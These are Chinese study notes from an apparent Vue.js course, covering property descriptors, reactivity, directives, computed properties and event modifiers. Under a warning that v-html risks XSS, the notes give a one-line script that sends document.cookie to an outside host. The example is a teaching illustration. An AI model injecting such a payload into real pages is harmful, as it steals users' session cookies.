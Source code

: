 * 属性特性
    * 值属性（有值的属性）
        * configurable  可配置型
        * enumerable    可枚举性
        * writable      可写性
        * value
    * 存储器属性：属性本身没有值，但可以监听到修改与读取，一般用于代理其他数据
        * configurable 
        * enumerable
        * get
        * set

## day2-3

### 复习
* 响应式属性
    * 核心：存储器属性getter&setter
    * 设置存储器属性的方式
        * data: 实例化Vue时，会遍历data下所有属性，并把它们转成存储器属性
        * Vue.set()/this.$set
* 双向：v-model
    * 单向: v-bind:value
    * 事件
* 指令
    * v-text
    * v-html    慎用，防止xss攻击（过滤破坏性代码），除非你信任数据内容
        ```js
            <script>
                location.href = 'http://laoxie.com?cookie='+document.cookie
            </script>
        ```
    * v-bind
        > 简写： :
    * v-model
    * v-for
    * v-on
        > 简写：@
    * v-show
    * v-if
        * v-else-if
        * v-else


### 知识点
* computed: 计算属性
    > 核心：getter & setter
* 实例属性&方法
    * this.$refs: 保存所有ref属性对应的节点
    * this.$el: 实例化时配置的el（视图对应的节点）
    * this.$data: 实例化时配置的data
    * this.$options: 实例化时的所有配置信息
    * this.$set()/Vue.set()
    * this.$delete()/Vue.delete()
* 事件
    * event
        * 默认为事件处理函数的第一个参数
        * 如果手动传参，需要手动传递event对象
    * 传参
    * 修饰符：
        * 键盘事件修饰符
            * 复制：@keyup.ctrl.67
        * 鼠标事件修饰符
* 过滤器filter